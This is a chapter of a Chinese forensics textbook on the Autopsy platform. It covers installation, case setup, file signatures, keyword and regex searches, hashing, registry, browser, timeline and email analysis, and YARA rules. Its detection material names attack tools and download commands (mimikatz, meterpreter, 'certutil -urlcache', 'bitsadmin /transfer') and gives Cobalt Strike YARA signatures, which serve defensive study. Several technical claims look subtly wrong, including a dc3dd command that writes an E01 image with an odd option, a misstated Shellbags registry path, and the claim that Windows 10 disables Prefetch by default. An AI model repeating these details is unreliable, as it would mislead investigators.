




## 25.5 Autopsy综合取证平台

Autopsy 是全球最广泛使用的开源数字取证平台之一，由 Brian Carrier 于 2001 年基于 The Sleuth Kit（TSK）开发。它将命令行取证工具集封装为图形化界面，让取证分析从"黑屏白字"进化为可视化工作流。截至 2025 年，Autopsy 在 GitHub 上获得超过 2800 颗星，被执法机构、企业安全团队和学术研究者广泛采用，其社区版免费开源（Apache 2.0 许可），商业版由 Basis Technology 提供企业级支持。

Autopsy 的核心价值在于：它让非专业开发者也能执行专业级数字取证，同时为资深取证分析师提供可扩展的模块化架构以满足高级需求。从快速筛查到深度取证，Autopsy 覆盖了取证分析的完整生命周期。

### 25.5.1 架构与设计哲学

Autopsy 采用模块化架构，核心设计理念是"可插拔的分析管线"。整个系统分为四层，每层职责清晰：

```mermaid
graph TB
    subgraph "展示层 (Presentation Layer)"
        GUI[Autopsy GUI<br/>Java Swing / Web UI]
    end
    
    subgraph "分析层 (Analysis Layer)"
        IP[Ingest Pipeline<br/>可插拔模块]
        M1[文件类型识别]
        M2[哈希过滤]
        M3[关键词搜索]
        M4[HashDB查询]
        M5[YARA扫描]
        M6[注册表解析]
        M7[邮件解析]
        M8[文件雕刻]
    end
    
    subgraph "存储层 (Storage Layer)"
        DB[(Central Repository<br/>SQLite / PostgreSQL)]
        IDX[(Solr/Lucene<br/>全文索引)]
        FS[案件文件系统]
    end
    
    subgraph "引擎层 (Engine Layer)"
        TSK[The Sleuth Kit (TSK)]
        FS_P[文件系统解析]
        VS_P[卷系统解析]
        IMG_P[镜像格式支持]
    end
    
    GUI --> IP
    IP --> M1 & M2 & M3 & M4 & M5 & M6 & M7 & M8
    M1 & M2 & M3 & M4 & M5 & M6 & M7 & M8 --> DB
    M3 --> IDX
    IP --> TSK
    TSK --> FS_P & VS_P & IMG_P
```

**The Sleuth Kit（TSK）** 是 Autopsy 的底层引擎，提供对文件系统和卷系统的底层访问能力。支持的文件系统包括：

| 文件系统 | 平台 | 支持特性 | 取证价值 |
|---------|------|---------|---------|
| NTFS | Windows | 完整支持，含 MFT、日志、ADS | MFT 记录所有文件元数据，ADS 可隐藏数据 |
| FAT12/16/32 | 跨平台 | 完整支持，含删除文件恢复 | 恢复率高，无日志但结构简单 |
| exFAT | 跨平台 | 完整支持 | 大容量移动设备常用 |
| ext2/3/4 | Linux | 完整支持，含日志解析 | ext3/4 日志可回溯文件操作历史 |
| HFS+ | macOS | 完整支持 | Time Machine 备份分析 |
| APFS | macOS 10.13+ | 社区贡献支持 | 加密卷需密钥才能分析 |
| UFS/UFS2 | BSD | 基础支持 | FreeBSD 系统取证 |
| ISO 9660 | 光盘 | 基础支持 | 光盘镜像取证 |

**设计哲学的关键体现：**

- **只读优先**：Autopsy 以只读模式访问所有数据源，绝不修改原始证据，这是法庭取证的基本要求
- **可重复性**：所有分析步骤都记录在案件数据库中，确保不同分析师能复现分析结果
- **模块隔离**：每个 ingest 模块独立运行，一个模块的失败不影响其他模块
- **审计追踪**：所有用户操作（标记、注释、导出）都带时间戳和用户标识，满足法庭证据链要求

### 25.5.2 安装与环境配置

#### 依赖组件

Autopsy 运行需要 Java 11+（推荐 Java 17 LTS）和 The Sleuth Kit。完整的依赖链如下：

```bash
# 基础依赖（Ubuntu/Debian）
sudo apt-get update
sudo apt-get install -y \
    openjdk-17-jdk \
    testdisk \
    libewf-dev \
    libvhdi-dev \
    libvmdk-dev \
    afflib-tools \
    curl \
    wget \
    python3 \
    python3-pip

# 安装 The Sleuth Kit
# 方式一：从系统包安装（版本可能滞后）
sudo apt-get install -y sleuthkit-java

# 方式二：从 GitHub 获取最新版（推荐）
TSK_VERSION="4.12.1"
wget https://github.com/sleuthkit/sleuthkit/releases/download/sleuthkit-${TSK_VERSION}/sleuthkit-java_${TSK_VERSION}-1_amd64.deb
sudo dpkg -i sleuthkit-java_${TSK_VERSION}-1_amd64.deb
sudo apt-get install -f  # 修复依赖

# 验证 TSK 安装
fls -V  # 应输出 TSK 版本信息
```

#### 安装 Autopsy

```bash
# 方式一：使用官方安装脚本（推荐，自动处理所有依赖）
wget https://github.com/sleuthkit/autopsy/releases/latest/download/install_linux.sh
chmod +x install_linux.sh
./install_linux.sh

# 方式二：从 GitHub 获取最新版源码编译
AUTOPSY_VERSION="4.21.0"
wget https://github.com/sleuthkit/autopsy/releases/download/autopsy-${AUTOPSY_VERSION}/autopsy-${AUTOPSY_VERSION}.zip
unzip autopsy-${AUTOPSY_VERSION}.zip
cd autopsy-${AUTOPSY_VERSION}
ant -f build.xml build
sudo ant -f build.xml install

# 方式三：使用 Docker 容器（隔离环境，适合一次性分析）
docker pull autopsy/autopsy:latest
docker run -d \
    --name autopsy-forensics \
    -p 9999:9999 \
    -v /evidence:/evidence:ro \
    -v /cases:/cases \
    --memory=8g \
    autopsy/autopsy:latest
```

#### 启动与基本配置

```bash
# 启动 Autopsy（桌面版）
/opt/autopsy/bin/autopsy

# 启动后通过浏览器访问
# 默认地址：http://localhost:9999/autopsy
# 自定义端口和绑定地址（远程访问场景）
# 编辑 /etc/autopsy/autopsy.conf 或启动参数
autopsy -p 8080 -b 0.0.0.0
```

**首次启动配置清单：**

1. **案件目录设置**：建议放在独立磁盘/分区，避免与系统盘混用（SSD 优先，提升数据库性能）
2. **Central Repository**：启用 SQLite 数据库（小型案件）或 PostgreSQL（多用户协作）
3. **Solr 索引服务**：确认 Solr 服务已启动（用于全文搜索）
4. **用户账户**：创建分析师账户，启用操作审计日志
5. **时区默认值**：设置为 UTC 或目标系统所在时区

**常见安装问题排查：**

| 问题 | 原因 | 解决方案 |
|-----|------|---------|
| `java.lang.UnsatisfiedLinkError` | TSK 本地库未加载 | 确认 `sleuthkit-java` 已安装且版本匹配：`ldconfig -p | grep libtsk` |
| 端口被占用 | 已有实例运行 | `lsof -i :9999` 查杀旧进程 |
| 权限不足 | 非 root 无法读取原始设备 | 将用户加入 `disk` 组：`sudo usermod -aG disk $USER` |
| 模块加载失败 | 缺少 Python 依赖 | `pip3 install -r requirements.txt`（模块目录下） |
| Solr 连接失败 | Solr 服务未启动 | `solr start -force` 或检查 `/var/log/solr/` |
| 内存不足 | Java 堆设置过小 | 编辑 `autopsy.conf` 设置 `DEFAULT_JVM_OPTIONS="-J-Xmx8g"` |
| 中文文件名乱码 | 编码不匹配 | 设置 JVM 参数：`-Dfile.encoding=UTF-8` |

### 25.5.3 案件管理

#### 创建案件

每个案件在 Autopsy 中是一个独立的工作空间。规范的案件管理是法庭取证的基础，所有操作必须可追溯、可重复。



**案件目录结构详解：**

```regex
/opt/forensics/cases/case-2025-0042/
├── autopsy.db              # SQLite 数据库（核心数据，含所有分析结果）
├── Temp/                   # 临时处理文件（索引构建中间文件等）
├── Export/                 # 导出的证据文件副本
├── ModuleOutput/           # 各分析模块输出
│   ├── keyword_search/     # Solr 索引和搜索结果
│   ├── hash_lookup/        # 哈希匹配结果
│   ├── interesting_files/  # 可疑文件标记
│   ├── recent_activity/    # 用户活动提取结果
│   └── file_type_id/       # 文件类型识别结果
├── Reports/                # 生成的报告（HTML/Excel/TSV）
├── logs/                   # 运行日志（含 ingest 模块执行日志）
└── Serif/                  # 案件元数据存储
```

**案件命名规范建议：**

```text
案件名称格式：[类型]-[年份]-[编号]-[简述]
示例：
  IR-2025-0327-服务器入侵
  HR-2025-0108-员工数据泄露
  FR-2025-0045-金融欺诈调查

案件编号：使用机构内部编号系统，确保全局唯一
检查员：记录所有参与分析的人员姓名和联系方式
```

#### 添加数据源

数据源是取证分析的起点。Autopsy 支持多种数据源类型，选择正确的数据源类型直接影响分析效率和结果准确性。

| 数据源类型 | 格式 | 典型场景 | 注意事项 |
|-----------|------|---------|---------|
| 磁盘镜像 | E01, DD, RAW, AFF4, VMDK, VHD | 硬盘取证副本 | E01 支持压缩和校验，推荐首选 |
| 逻辑文件 | 文件/文件夹 | 指定目录分析 | 不含文件系统元数据 |
| 局域网数据 | LE01/L01 | EnCase 逻辑证据 | 仅含逻辑文件，无物理层信息 |
| 拆分镜像 | .001, .002... | 大容量磁盘分段 | Autopsy 自动拼接 |
| 虚拟机磁盘 | VMDK, VDI, VHD | 虚拟机取证 | 注意快照文件的处理 |
| 移动设备 | UFDR, TAR | 手机取证工具导出 | Cellebrite/UFS 导出格式 |
| 本地磁盘 | 物理设备 | 实时取证 | 必须以只读方式访问 |

**磁盘镜像制作最佳实践（取证前置步骤）：**

在使用 Autopsy 之前，必须先制作原始磁盘的取证镜像。这是确保证据完整性的关键步骤：

```bash
# 使用 dc3dd 创建带校验的取证镜像（推荐）
dc3dd if=/dev/sda of=/evidence/disk-image.E01 \
    hash=sha256 \
    log=/evidence/dc3dd.log \
    eros=on  # 遇到坏扇区继续读取

# 使用 ewfacquire 创建 E01 格式镜像（行业标准）
ewfacquire /dev/sda \
    -d /evidence \
    -C "CASE-2025-0042" \
    -D "Server disk image" \
    -e "ForensicsTeam" \
    -t "server-disk" \
    -m "raw" \
    -c fast \
    -l /evidence/ewfacquire.log

# 验证镜像完整性
ewfverify /evidence/server-disk.E01
md5sum /evidence/server-disk.E01  # 对比镜像自带的哈希值
```

**添加磁盘镜像的操作步骤：**

1. 在案件面板中右键点击"数据源" → "添加数据源"
2. 选择数据源类型（磁盘镜像文件）
3. 浏览选择镜像文件路径
4. **设置时区**（关键！错误的时区会导致所有时间线偏移数小时）
   - 从目标系统注册表获取时区：`HKLM\SYSTEM\CurrentControlSet\Control\TimeZoneInformation`
   - Linux 系统查看 `/etc/localtime` 符号链接
   - 不确定时使用 UTC，避免误判
5. 选择需要运行的 ingest 模块（建议分阶段运行，详见 25.5.5）
6. 等待处理完成（大镜像可能需要数小时，可通过进度条监控）

### 25.5.4 核心分析模块详解

#### 文件类型识别与分类

Autopsy 的文件类型识别模块基于文件签名（magic bytes）而非文件扩展名。这是取证分析的基础——攻击者可以轻松修改扩展名，但无法伪造文件头签名。

**识别原理：**

```text
┌──────────────────────────────────────────────────────┐
│              文件类型识别流程                           │
├──────────────────────────────────────────────────────┤
│  1. 读取文件头前 32 字节                              │
│     ↓                                                │
│  2. 与内置签名数据库比对（基于 libmagic/trid）          │
│     ↓                                                │
│  3. 检测到匹配 → 标记为"已知类型"                      │
│     未匹配 → 标记为"未知类型"                          │
│     ↓                                                │
│  4. 比对文件扩展名与实际签名                           │
│     扩展名 = 签名 → 正常文件                          │
│     扩展名 ≠ 签名 → 标记为"扩展名不匹配"（高度可疑）   │
│     ↓                                                │
│  5. 输出文件分类结果到 ModuleOutput/file_type_id/      │
└──────────────────────────────────────────────────────┘
```

**常见文件签名示例（取证时需要关注的）：**

| 签名（十六进制） | 文件类型 | 取证意义 |
|----------------|---------|---------|
| `4D 5A` (MZ) | PE 可执行文件 | 即使扩展名是 .txt/.jpg，也是可执行程序 |
| `7F 45 4C 46` | ELF 可执行文件 | Linux 可执行程序，可能隐藏在用户目录 |
| `50 4B 03 04` | ZIP/OOXML | Office 2007+ 文档、APK、JAR 都是 ZIP |
| `25 50 44 46` | PDF | 恶意 PDF 常含嵌入式 JavaScript |
| `D0 CF 11 E0` | OLE（旧版 Office） | 含宏的文档可能是恶意载体 |
| `FF D8 FF` | JPEG | 常被用作隐写术载体 |
| `89 50 4E 47` | PNG | 同上，PNG 隐写更难检测 |
| `52 61 72 21` | RAR | 压缩包可能含恶意载荷 |
| `37 7A BC AF` | 7-Zip | 同上 |

**文件分类策略：**

- **已知好的文件**：通过 NSRL 哈希库过滤已知合法软件，减少分析噪音（可排除 60-80% 的系统文件）
- **已知坏的文件**：匹配恶意软件哈希库（VirusTotal、MalwareBazaar、自己的 IOC 哈希库）
- **未知文件**：未匹配任何已知哈希，需要人工审查（这是最耗时的部分）
- **可疑文件**：扩展名与签名不匹配、隐藏在非常规路径中、文件大小异常

#### 关键词搜索

关键词搜索是取证分析中最常用的模块，支持三种搜索模式，各有适用场景：

**模式一：精确匹配**

直接搜索指定字符串，适用于已知的关键词、用户名、密码片段、命令行参数。

```bash
# 精确匹配示例搜索词
"password"                    # 密码相关
"mimikatz"                    # 已知攻击工具名
"meterpreter"                 # Metasploit payload
"powershell -enc"             # Base64 编码的 PowerShell
"certutil -urlcache"          # 常见下载命令
"bitsadmin /transfer"         # 另一个常见下载方式
```

**模式二：正则表达式**

模式匹配搜索，适用于搜索特定格式的数据，比精确匹配更灵活。

```bash
# IP 地址
\b(?:\d{1,3}\.){3}\d{1,3}\b

# 邮箱地址
[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,}

# 信用卡号（Visa/MasterCard/Amex）
\b(?:4[0-9]{12}(?:[0-9]{3})?|5[1-5][0-9]{14}|3[47][0-9]{13})\b

# URL
https?://[^\s<>"']+

# 中国手机号
1[3-9]\d{9}

# 中国身份证号
[1-9]\d{5}(?:19|20)\d{2}(?:0[1-9]|1[0-2])(?:0[1-9]|[12]\d|3[01])\d{3}[\dXx]

# Windows 可执行文件路径
[A-Z]:\\[^\s]+\.exe

# Base64 编码块（可能隐藏命令或数据）
[A-Za-z0-9+/]{40,}={0,2}

# Shellcode 特征（NOP sled + 可执行代码）
\\x[0-9a-fA-F]{2}\\x[0-9a-fA-F]{2}\\x[0-9a-fA-F]{2}
```

**模式三：索引搜索（全文搜索）**

Autopsy 使用 Apache Solr（基于 Lucene）构建全文索引，支持模糊搜索、通配符和语义搜索。索引在添加数据源时自动构建，搜索速度远快于逐文件扫描。

```text
索引搜索的优势：
├── 搜索速度：毫秒级响应（vs 逐文件扫描数小时）
├── 模糊匹配：容忍拼写错误和变体
├── 通配符支持：* 和 ? 匹配模式
├── 上下文显示：返回匹配词的前后文
└── 多语言支持：中文分词、日文分词等
```

**搜索性能优化技巧：**

- 先用哈希过滤排除已知文件，缩小搜索范围（NSRL 可排除 60-80% 的文件）
- 对大容量数据源（>500GB），分批添加并逐批搜索，避免内存溢出
- 使用正则表达式而非通配符，减少误匹配
- 利用搜索结果的上下文显示，快速判断相关性
- 搜索时指定文件类型过滤（如只搜索 .txt、.log、.xml 文件）
- 对已知攻击模式建立搜索词库，批量搜索提高效率

#### 哈希分析与过滤

哈希分析是数字取证的基石，用于文件身份识别和快速分类。Autopsy 自动为每个文件计算多种哈希值，并支持与外部哈希库比对。

```bash
# Autopsy 自动计算的哈希值
MD5      # 128位，传统标准，碰撞风险已证实（2004年王小云教授首次公开碰撞）
SHA-1    # 160位，已不推荐用于安全目的但仍是行业标准（Google 2017 年首次碰撞）
SHA-256  # 256位，当前推荐标准，无已知碰撞
```

**NSRL（National Software Reference Library）集成详解：**

NSRL 是由美国国家标准与技术研究院（NIST）维护的全球最大已知软件哈希库，包含超过 3 亿已知软件文件的哈希。Autopsy 通过 Hash Lookup 模块与 NSRL 集成：

- **已知软件**：标记为"已知"，自动排除（减少 60-80% 的分析噪音）
- **潜在匹配**：哈希匹配但版本或路径不同，需人工确认
- **无匹配**：未在 NSRL 中，可能是自定义文件、恶意软件或新软件

**哈希库的实际应用场景：**

| 场景 | 操作 | 目的 | 数据来源 |
|-----|------|------|---------|
| 恶意软件排查 | 导入 VirusTotal 哈希库 | 标记已知恶意文件 | VT API 导出 |
| 合规审计 | 导入企业软件白名单 | 识别未授权软件 | IT 部门维护 |
| 盗版追踪 | 导入版权内容哈希库 | 定位侵权文件 | 版权方提供 |
| 案件关联 | 导入前案关键文件哈希 | 发现跨案件关联 | Central Repository |
| 暗网追踪 | 导入已知恶意工具哈希 | 识别暗网工具 | 威胁情报平台 |

**自定义哈希集管理：**

```text
在 Autopsy 中管理自定义哈希集：
案件面板 → 工具 → 哈希数据库管理
├── 导入哈希集：支持 NSRL、CSV、纯文本格式
├── 创建哈希集：从分析结果中导出关键文件哈希
├── 分类标记：已知好/已知坏/未知/可疑
└── 集群管理：按案件类型、威胁类型分组
```

#### 注册表分析

Windows 注册表是取证分析的富矿，包含系统配置、用户活动、软件安装、网络连接等几乎所有关键信息。Autopsy 内置了注册表解析器（基于 TSK 的 regripper），能够自动提取并结构化展示。

**关键注册表配置单元及其取证价值：**

| 配置单元 | 路径 | 取证价值 |
|---------|------|---------|
| NTUSER.DAT | `C:\Users\<用户名>\` | 用户个人设置、最近文件、搜索历史、Shellbags |
| UsrClass.dat | `C:\Users\<用户名>\AppData\Local\Microsoft\Windows\` | Shellbags（文件夹访问历史）、文件关联 |
| SAM | `C:\Windows\System32\config\SAM` | 用户账户、密码哈希、登录历史 |
| SYSTEM | `C:\Windows\System32\config\SYSTEM` | 系统配置、时区、USB 设备记录、首次安装时间 |
| SOFTWARE | `C:\Windows\System32\config\SOFTWARE` | 已安装软件、启动项、系统策略 |
| BCD | 独立文件 | 启动配置（多系统、安全启动设置） |

**关键注册表路径及其取证意义：**

```bash
# USB 设备连接记录（物理入侵/数据窃取的关键证据）
HKLM\SYSTEM\CurrentControlSet\Enum\USBSTOR\
  → 记录所有曾连接的 USB 存储设备的厂商、型号、序列号
  → 时间戳反映首次和最近连接时间
  → 配合 setupapi.dev.log 可确认设备安装时间

# 最近访问的文件（用户行为重建）
HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\RecentDocs\
  → 按文件类型分类的最近打开文件列表
  → 保留最后 150 个文件的 LNK 快捷方式信息

# Shellbags（文件夹浏览历史，即使文件夹已删除仍有记录）
HKCU\Software\Microsoft\Windows\NT\CurrentVersion\Shellbags\MRU
  → 记录用户浏览过的所有文件夹路径
  → 包括网络共享、USB 设备上的文件夹
  → 即使文件夹已删除，Shellbag 记录仍然存在

# 网络连接历史（横向移动和 C2 通信证据）
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\NetworkList\Signatures\
  → 记录曾连接的无线网络 SSID、MAC 地址、首次/最近连接时间
  → 可判断嫌疑人是否到过特定地点

# 自启动项（持久化后门检查）
HKLM\Software\Microsoft\Windows\CurrentVersion\Run
HKCU\Software\Microsoft\Windows\CurrentVersion\Run
HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce
→ 恶意软件常用的持久化驻留点
→ RunOnce 项执行一次后自动删除，更适合隐蔽攻击

# 服务注册表（另一种持久化方式）
HKLM\SYSTEM\CurrentControlSet\Services\
  → 记录所有系统服务，包括恶意服务
  → 恶意服务常伪装为合法名称（如 svchost.exe、csrss.exe）

# 预取文件信息（程序执行历史）
HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Memory Management\PrefetchParameters
→ 配合 C:\Windows\Prefetch\ 目录分析程序执行历史
→ Prefetch 文件记录程序名、执行次数、最后执行时间
→ 但 Windows 10+ 默认禁用 Prefetch，需从注册表确认状态
```

#### Web 浏览历史分析

浏览器数据库是用户网络活动的最直接记录。Autopsy 能够解析主流浏览器的 SQLite 数据库文件，提取完整的网络活动记录。

| 浏览器 | 数据库文件路径 | 支持的解析内容 |
|--------|--------------|--------------|
| Chrome | `AppData\Local\Google\Chrome\User Data\` | 访问记录、下载、表单、密码、Cookie、缓存 |
| Firefox | `AppData\Roaming\Mozilla\Firefox\Profiles\` | 访问记录、书签、下载、Cookie、密码、表单 |
| Edge | `AppData\Local\Microsoft\Edge\User Data\` | 同 Chrome（基于 Chromium） |
| Safari | `~/Library/Safari/` | 访问记录、Cookie、下载 |
| IE | `AppData\Local\Microsoft\Windows\History\` | 访问记录、缓存、Cookie（index.dat 格式） |

**浏览器取证关键分析点：**

- **搜索关键词**：从搜索引擎 URL 中提取用户搜索过的内容（如 `q=xxx` 参数）
- **下载记录**：文件名、来源 URL、下载时间、保存路径（Chrome 的 `History` → `downloads` 表）
- **表单自动填充**：用户输入过的姓名、地址、联系方式（`Web Data` → `autofill` 表）
- **已保存密码**：浏览器加密存储的登录凭证（需系统密码解密，Chrome 使用 DPAPI）
- **Cookie**：网站会话信息，可还原用户登录状态和跟踪行为
- **缓存文件**：已访问页面的本地副本，含已删除页面的内容
- **扩展/插件**：安装的浏览器扩展，可能含恶意插件

**浏览器加密数据解密注意事项：**

```text
Chrome/Edge 密码存储：
├── 数据库：Login Data (SQLite)
├── 加密：Windows DPAPI / macOS Keychain / Linux libsecret
├── Autopsy 默认尝试解密（需要目标系统密码或主密钥）
└── 无法解密时仍可看到加密的密文和对应的 URL/用户名

Firefox 密码存储：
├── 数据库：logins.json + key4.db (NSS 数据库)
├── 加密：主密码（Master Password）
├── 无主密码时可直接解密
└── 有主密码时需要提供密码才能解密
```

#### 时间线分析

时间线分析是 Autopsy 最强大的功能之一，它将分散在文件系统、注册表、日志中的时间戳信息整合为统一的可视化时间轴，是重建事件序列的核心手段。



**MAC 时间戳深入理解：**

| 时间戳 | 含义 | NTFS 来源 | 可靠性 | 攻击者篡改难度 |
|--------|------|----------|--------|--------------|
| M (Modified) | 文件内容最后修改时间 | $STANDARD_INFORMATION | 中 | 低（可直接修改） |
| A (Accessed) | 文件最后访问时间 | $STANDARD_INFORMATION | 低 | 极低 |
| C (Changed) | 元数据变化时间 | $STANDARD_INFORMATION | 高 | 中（需特定工具） |
| B (Birth/Created) | 文件创建时间 | $STANDARD_INFORMATION | 中 | 低 |

**NTFS 双重时间戳陷阱（关键取证知识）：**

```text
NTFS 中每个文件有两个独立的时间戳记录：

1. $STANDARD_INFORMATION (SI)
   → 存储在 MFT 记录的属性中
   → 用户和大多数工具看到的时间
   → 攻击者常用 timestomp 工具修改此时间

2. $FILE_NAME (FN)
   → 存储在 MFT 的文件名属性中
   → 创建时自动生成，很多工具不显示
   → 攻击者通常不知道需要同时修改此时间

取证要点：
→ SI 和 FN 时间戳不一致是时间篡改的重要信号
→ FN 的 Birth 时间通常比 SI 的 Creation 时间更早或相同
→ 使用 TSK 的 fls -e 命令可同时显示两套时间戳
```

#### 邮件分析

邮件是数字取证中最常见的证据来源之一。Autopsy 支持解析多种邮件格式，能够提取完整的邮件信息和元数据。

| 邮件格式 | 来源 | 解析内容 |
|---------|------|---------|
| PST/OST | Microsoft Outlook | 邮件、日历、联系人、任务、附件 |
| MBOX | Unix/Linux 通用 | 所有邮件（Unix 邮箱格式） |
| EML | 单个邮件文件 | RFC 822 格式邮件 |
| NSF | Lotus Notes | 邮件、日历、数据库 |
| EDB/STM | Exchange Server | 服务器端邮件数据库（需额外工具） |

**邮件头分析要点（溯源邮件真实来源）：**

```text
邮件头中的 Received 字段链是追溯邮件来源的关键：

Received: from mail.evil.com (unknown [192.168.1.100])
    by mail.victim.com with ESMTP id abc123
    for <victim@victim.com>; Tue, 25 Mar 2025 08:30:00 +0800
Received: from [10.0.0.1] (helo=attacker-pc)
    by mail.evil.com with ESMTP id def456
    for <victim@victim.com>; Tue, 25 Mar 2025 08:29:55 +0800

分析方法：
1. 从下往上读（最底部是最先处理的邮件服务器）
2. 最底部的 Received 头 = 邮件的原始发送点
3. 检查 IP 地址是否与声称的发件人一致
4. 时间戳可验证邮件是否在声称的时间发送
5. 邮件 ID 可跨服务器追踪邮件路由
```

### 25.5.5 自动化分析管线（Ingest Pipeline）

Ingest Pipeline 是 Autopsy 的自动化分析核心。当添加数据源时，选定的 ingest 模块按顺序自动运行，对每个文件进行多维度分析。

**内置 Ingest 模块清单：**

| 模块名称 | 功能 | 资源消耗 | 建议 |
|---------|------|---------|------|
| Recent Activity | 提取 Web 历史、USB、最近文件 | 低 | 始终启用 |
| Hash Lookup | 与 NSRL/自定义哈希库比对 | 低 | 始终启用 |
| File Type Identification | 基于签名识别文件类型 | 低 | 始终启用 |
| Embedded File Extractor | 从 Office/PDF 中提取嵌入对象 | 中 | 启用 |
| Keyword Search | 全文索引和关键词搜索 | 高 | 按需启用 |
| Email Parser | 解析邮件文件和附件 | 中 | 涉及邮件时启用 |
| Registry Analyzer | 注册表自动解析 | 低 | Windows 镜像启用 |
| Interesting Files | 标记非常规位置的文件 | 低 | 启用 |
| PhotoRec Carver | 文件雕刻恢复删除文件 | 高 | 按需启用 |
| Virtual Machine Extractor | 自动挂载 VM 磁盘 | 中 | 涉及 VM 时启用 |
| YARA Analyzer | YARA 规则匹配扫描 | 高 | 需要 YARA 规则库时启用 |
| Android Analyzer | Android 数据库解析 | 中 | 移动设备取证时启用 |

**Ingest Pipeline 分阶段配置策略：**

对于大规模取证案件（>100GB），建议分阶段运行 ingest 模块，避免一次性加载所有模块导致资源耗尽：



```text
第一阶段（快速筛查，30分钟内）：
  ├── Hash Lookup（排除已知文件，缩小 60-80% 分析范围）
  ├── File Type Identification（分类文件，识别伪装文件）
  ├── Registry Analyzer（提取关键系统信息）
  └── Recent Activity（快速用户行为画像）

第二阶段（重点分析，数小时）：
  ├── Keyword Search（关键词命中，基于第一阶段缩小的范围）
  ├── Email Parser（邮件证据提取和索引）
  └── YARA Scanner（恶意软件特征匹配）

第三阶段（深度分析，按需）：
  ├── PhotoRec Carver（文件雕刻恢复已删除文件）
  ├── VM Extractor（自动挂载虚拟机磁盘分析）
  └── Embedded File Extractor（从 Office/PDF 深层提取嵌入对象）
```

### 25.5.6 高级功能

#### YARA 规则集成

YARA 是恶意软件分析的行业标准工具，Autopsy 通过 YARA Analyzer 模块集成了 YARA 规则扫描能力：

```bash
# 在 Autopsy 中使用 YARA 规则
# 步骤 1：准备 YARA 规则文件
cat > malware_rules.yar << 'EOF'
rule APT_PowerShell_Reflection {
    meta:
        description = "检测 PowerShell 反射加载器"
        author = "ForensicsTeam"
        date = "2025-03-27"
    strings:
        $s1 = "System.Reflection.Assembly" ascii
        $s2 = "Load([Convert]::FromBase64String" ascii
        $s3 = "Invoke" ascii
        $hex1 = { 4D 5A 90 00 03 00 00 00 }
    condition:
        $hex1 at 0 and 2 of ($s*)
}

rule Suspicious_CobaltStrike_Beacon {
    meta:
        description = "检测 Cobalt Strike Beacon 特征"
        author = "ForensicsTeam"
        date = "2025-03-27"
    strings:
        $s1 = "%d is an x86 or x64" ascii
        $s2 = "beacon.dll" ascii
        $s3 = "\\.\pipe\msagent_" ascii
    condition:
        uint16(0) == 0x5A4D and 2 of them
}
EOF

# 步骤 2：在 Autopsy 中配置 YARA 模块
# 案件面板 → Ingest Modules → YARA Analyzer → 配置规则路径
# 选择规则文件目录，启用模块

# 步骤 3：查看 YARA 扫描结果
# 左侧面板 → 分析结果 → Interesting Items → YARA Hits
```

#### 关联分析（Correlation）

